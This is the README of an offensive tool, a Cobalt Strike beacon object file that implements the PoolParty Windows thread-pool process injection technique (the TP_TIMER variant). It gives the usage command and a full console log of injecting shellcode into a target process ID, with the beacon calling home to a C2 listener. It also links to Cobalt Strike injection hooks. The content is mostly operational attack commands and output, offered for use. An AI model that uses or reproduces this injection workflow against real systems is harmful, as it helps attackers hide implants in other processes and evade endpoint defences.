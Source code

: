 # PoolParty BOF

A beacon object file implementation of [PoolParty Process Injection Technique](https://github.com/SafeBreach-Labs/PoolParty/) by [@_SafeBreach_](https://www.safebreach.com/) and [@_0xDeku_](https://twitter.com/_0xDeku), that abuses Windows Thread Pools. The BOF only supports the 8th technique/variant called `Insert TP_TIMER work item to the target process's thread pool.` I will try to keep adding more variants.

## Usage
```
PoolPartyBof <Process ID> <Listener Name>
```

- Usage Examples

```
beacon> PoolPartyBof 7216 HTTPSLocal
[*] Opening 7216 and running PoolParty with HTTPSLocal listener!
[+] host called home, sent: 314052 bytes
[+] received output:
[INFO] 	Shellcode Size: 307204 bytes
[+] received output:
[INFO] 	Starting PoolParty attack against process id: 7216
[+] received output:
[INFO] 	Retrieved handle to the target process: 00000000000003F0
[+] received output:
[INFO] 	Hijacked worker factory handle from the target process: 00000063245AF458
[+] received output:
[INFO] 	Hijacked timer queue handle from the target process: 00000063245AF458
[+] received output:
[INFO] 	Allocated shellcode memory in the target process: 0000029B99E10000
[+] received output:
[INFO] 	Written shellcode to the target process
[+] received output:
[INFO] 	Retrieved target worker factory basic information
[+] received output:
[INFO] 	Created TP_TIMER structure associated with the shellcode
[+] received output:
[INFO] 	Allocated TP_TIMER memory in the target process: 0000029B99E60000 
[+] received output:
[INFO] 	Written the specially crafted TP_TIMER structure to the target process
[+] received output:
[INFO] 	Modified the target process's TP_POOL timer queue WindowsStart and Windows End to point to the specially crafted TP_TIMER
[+] received output:
[INFO] 	Set the timer queue to expire to trigger the dequeueing TppTimerQueueExpiration
[+] received output:
[INFO] 	PoolParty attack completed successfully
```

![](img/PoolPartyBof.png)

> The BOF can be further used with [Process Injection Hooks](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/malleable-c2-extend_control-process-injection.htm) provided within Cobaltstrike, and [Rastamouse](https://twitter.com/_RastaMouse) has a perfect [blog](https://offensivedefence.co.uk/posts/cs-process-inject-kit/) too.


### Credits and Orginal Work
- [Blackhat Slides](https://www.blackhat.com/eu-23/briefings/schedule/#the-pool-party-you-will-never-forget-new-process-injection-techniques-using-windows-thread-pools-35446)
- [Alon Leviev](https://twitter.com/_0xDeku)
- [SafeBreach](https://www.safebreach.com/)
